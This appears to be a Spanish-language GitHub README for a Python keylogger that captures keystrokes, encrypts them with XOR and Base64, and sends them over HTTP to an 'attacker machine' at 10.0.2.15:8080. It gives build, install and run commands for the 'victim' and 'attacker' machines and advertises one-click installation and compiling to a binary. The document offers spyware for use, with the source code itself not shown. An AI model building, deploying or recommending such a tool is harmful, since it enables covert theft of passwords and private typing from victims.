 

## funcionalidades

- captura teclas en tiempo real
- reconstruye texto automaticamente cada 3 segundos
- cifra contenido usando xor + base64
- transmite datos via http a maquina que espera 
- instalacion automatica con un clic

## archivos

- `unified_keylogger.py` - keylogger principal
- `reconstructor.py` - convierte teclas capturadas en texto legible
- `keylogger_auto.sh` - script bash de ejecucion
- `build_keylogger.py` - compilador a ejecutable binario
- `run_keylogger.sh` - lanzador del ejecutable (se genera automaticamente)

## uso

### opcion 1: ejecutable compilado (recomendado)
```bash
# compilar una sola vez
python build_keylogger.py

# ejecutar como programa normal (no necesita chmod)
sudo ./dist/keylogger
```

### opcion 2: script bash
```bash
# hacer ejecutable (solo primera vez)
chmod +x keylogger_auto.sh

# ejecutar
./keylogger_auto.sh
```

### opcion 3: lanzador automatico
```bash
# despues de compilar, usar lanzador
sudo ./run_keylogger.sh
```

## configuracion

configurado para enviar datos a `10.0.2.15:8080`. editar `unified_keylogger.py` linea 390 para cambiar ip destino.

## dependencias

### para compilar:
- python 3.x
- pyinstaller (se instala automaticamente)

### ejecutable compilado incluye:
- pynput (captura de teclas)
- requests (transmision http)
- todas las dependencias necesarias

## instalacion

### opcion 1: compilar ejecutable (recomendado)
```bash
# compilar (instala dependencias automaticamente)
python build_keylogger.py

# resultado: dist/keylogger (ejecutable binario)
```

### opcion 2: instalacion manual
```bash
pip install -r requirements.txt
```


## ¿Qué hace?

Creé un keylogger completo que:
- Captura todas las teclas presionadas en tiempo real
- Reconstruye el texto automáticamente cada 3 segundos
- Cifra el contenido usando XOR + Base64
- Envía los datos cifrados a una máquina atacante remota
- Permite descifrar los datos capturados

## Archivos principales

### Para la máquina víctima:
- `unified_keylogger.py` - El keylogger principal con todas las funcionalidades
- `reconstructor.py` - Convierte las teclas capturadas en texto legible  
- `keylogger_auto.sh` - Ejecutable que instala todo y ejecuta con un solo clic

## Cómo usar

### Máquina atacante (IP: 10.0.2.15):
```bash
python data_receiver.py
```

### Máquina víctima:
```bash
chmod +x keylogger_auto.sh
./keylogger_auto.sh
```

## Tecnologías utilizadas

- **Python** - Lenguaje principal
- **pynput** - Captura de teclas
- **requests** - Comunicación HTTP
- **flask** - Servidor receptor
- **XOR + Base64** - Cifrado simétrico
- **Threading** - Procesamiento concurrente

